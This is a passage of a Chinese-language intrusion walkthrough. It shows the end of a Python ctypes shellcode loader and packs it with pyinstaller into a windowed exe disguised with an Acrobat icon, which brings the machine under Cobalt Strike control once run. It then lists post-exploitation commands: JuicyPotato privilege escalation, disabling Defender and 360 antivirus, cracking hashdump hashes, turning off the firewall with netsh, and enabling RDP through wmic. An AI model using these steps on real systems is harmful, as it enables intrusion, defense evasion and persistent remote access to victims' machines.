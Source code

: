 ```python
    ctypes.c_int(0),
    ctypes.c_uint64(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```

再打包成 exe：

```bash
pyinstaller -F file_3.py -w -i acroread.ico
```

把上述 3 个文件传到同一目录 ，运行 file_3.exe 即上线：

<img src=".\图片\Snipaste_2023-05-12_13-38-56.png" alt="Snipaste_2023-05-12_13-38-56" style="zoom:80%;" />

于是把权限推到 cs

## 后续操作

再用 cs 提权插件 juicypotato 提权到 system

接着关闭 defender，，关闭360，远程桌面密码用hashdump出来的md5解密 

```beacon
beacon> netsh advfirewall set allprofiles state off
```

开启远程桌面3389：

```beacon
beacon> shell wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
```
